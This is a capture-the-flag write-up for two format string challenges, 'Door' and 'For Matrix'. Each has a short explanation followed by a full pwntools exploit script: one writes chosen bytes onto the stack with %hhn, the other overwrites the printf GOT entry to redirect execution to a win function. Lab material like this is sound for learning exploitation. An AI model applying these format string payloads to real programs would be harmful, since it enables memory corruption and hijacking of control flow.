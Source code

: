 # Door

> Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyNC1kb29yIiwiaXAiOiIyMDIuODcuMTYyLjI4Iiwic2Vzc2lvbiI6IjllYTg3YzU0LWIwYjItNGUyMS1hYjVkLTA2YjJhMGViMTAxNSJ9.Zglm3dj4pU0GjsgcDdyhB7uFTieyWUYfMTBHQS5_ij0}

## Scenario

There is a vulnerable printf function that is 0x200 bytes long.  
There are four bytes at ebp-0x5 that need to be overwritten to 'A', 'P', 'E', 'S'

## Solution

Perform a format string attack with the vulnerable printf function to overwrite the four bytes.  
When overwriting byte-by-byte, `%hhn` should be used.  
An offset of 1 byte was required to byte-align the values.

## Script

```python3
from pwn import *
import re

p = process("./door")
p = remote('plsdonthaq.me', 4001)

p.recvuntil(b'A landslide has blocked the way at ')

landSlideAddress = int(p.recvline(keepends=False), 16)
print(f"ebp-0x5 = {hex(landSlideAddress)}")

ebp = landSlideAddress + 0x5
print(f"Calculated ebp = {hex(ebp)}")

## fgets(ebp-0x205, 0x200, stdin)
## printf(ebp-0x205)

# We want to overwrite the contents at ebp-0x205 to be "APES"
payload = b''
payload += b'.' # Offset
payload += p32(landSlideAddress)   # Write 65
payload += p32(landSlideAddress+1) # Write 80
payload += p32(landSlideAddress+2) # Write 69
payload += p32(landSlideAddress+3) # Write 83
# 17 characters already used

p.sendline(payload + b'%48c%2$hhn' + b'yeet%4$hhn' + b'%11c%3$hhn' + b'lol%5$hhn')
#               17      + 48 = 65        + 4 = 69       + 11 = 80       + 3 = 83

p.interactive()

```

---

# For Matrix

> Flag: `FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyNC1mb3JtYXRyaXgiLCJpcCI6IjIwMi44Ny4xNjIuMjgiLCJzZXNzaW9uIjoiYjdmNWU1MTEtMzU1Ni00ZTgxLWJmZWYtNzZiOTM2YTUwMjBlIn0.Wdz38UVHLuCjsYl7tNDFYM33ltvbVUcSEIDTYj4-SCM}`

## Scenario

There is a format string vulnerable `sprintf` function that allows a user to enter in up to 512 bytes.  
This format string will then be evaluated, meaning that we can override either the `puts` or `printf` GOT entry to point to the `win` function.

## Solution

We have a choice of either overwriting the `puts` or `printf` function.  
The `win` function however, also uses the `puts` function. So as to prevent an infinite loop, we'll override the `printf` function instead.  

We can push the four addresses of the bytes containing the `printf` GOT entry, and then write in the bytes with `%hhn`.  

## Script

```python3
from pwn import *
import re

p = process("./formatrix")
p = remote('plsdonthaq.me', 4003)

# fgets(ebp-0x208, 0x200, stdin)
# sprintf(ebp-0x608, ep-0x208)

# There is a win() function which will pop our shell
# Either overwrite puts, or printf.  
# However, the win function also uses puts, so we don't want to cause an infinite loop.
# Override printf!

printf_GOT = 0x8049c18 # From the ELF

""" Time for some quick maffs

Win Address = 0x8048536 (From the ELF)

We're going to inject the values one byte at a time.  
To do, we'll need to start the string with the four addresses of each byte for the printf GOT.  

0x08 -> addr+3
0x04 -> addr+2
0x85 -> addr+1
0x36 -> addr+0

Due to needing to include the addresses, %n write will start of as >= 16.  
We'll start at 0x36, then go to 0x85, then overflow to 0x04, then go to 0x08

0x36 -> addr+0
0x85 -> addr+1
0x04 -> addr+2
0x08 -> addr+3

# Oh hey it's just reverse order!
"""

'''
payload = b"AAAA"+ b" %p" * 10
AAAA 0xf77885a0 0x804858c 0x41414141 0x66783020 0x38383737 0x20306135 0x30387830 0x38353834 0x78302063 0x31343134

We can read our string at the third 4-byte index i.e. %3$p
'''

payload = b""
payload += p32(printf_GOT+0)
payload += p32(printf_GOT+1)
payload += p32(printf_GOT+2)
payload += p32(printf_GOT+3)

payload += b"." * (0x36 - len(payload))
payload += b'%3$hhn'

payload += b"." * (0x85 - 0x36)
payload += b'%4$hhn'

payload += b"." * ((0x04 - 0x85) % 0x100) # Note to future me: Don't mod 0xFF, it's 0x100.
payload += b'%5$hhn'

payload += b"." * (0x08 - 0x04)
payload += b'%6$hhn'

p.sendline(payload)
p.interactive()
```